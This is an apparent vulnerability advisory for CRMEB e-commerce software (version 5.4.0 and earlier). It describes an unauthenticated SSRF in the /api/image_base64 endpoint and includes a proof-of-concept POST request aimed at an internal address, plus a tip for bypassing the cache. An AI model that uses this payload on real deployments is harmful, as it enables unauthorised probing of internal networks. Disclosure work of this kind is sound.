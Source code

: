 BUG_Author:
Rui Jie

Affected version:
CRMEB Standard Edition New Retail Social E-commerce System
Version<=5.4.0

Vendor:
https://www.crmeb.com/

Software:

https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:
app/api/controller/v1/PublicController.php
app/common.php

Description:

A vulnerability classified as Server-Side Request Forgery has been identified in CRMEB. This affects sections of the app/api/controller/v1/PublicController.php file. Manipulation of the parameter image/code leads to Server-Side Request Forgery
It's an unauthorised interface, and doesn't even require any users.
A server-side request can be forged by anyone by visiting /api/image_base64 and passing the parameter image/code 
Pass json data
`{"image": "http://127.0.0.1:67?1=xxx", "code":""}`
Even if here on the incoming imageurl/codeurl judgement, but here there is a logical problem, through the `&&` connection of the conditional judgement, even if there is no picture suffix, will not meet the conditions, but also will continue to perform subsequent functions to image_to_base64 to achieve the SSRF attack

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121447950.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121451269.png)
POC:
```
POST /api/image_base64 HTTP/1.1

Host: crmeb.cc

Origin: http://crmeb.cc

Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774

Upgrade-Insecure-Requests: 1

Content-Type: application/json

Referer: http://crmeb.cc//api/image_base64

Accept-Language: zh-CN,zh;q=0.9

Accept-Encoding: gzip, deflate

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Cache-Control: max-age=0

Content-Length: 53

  

{"image":"http://127.0.0.1:67?1=12221231","code":""}
```
Trigger curl here(app/common.php)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121444887.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446514.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446706.png)
However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution `http://127.0.0.1:67/?1=change me`.
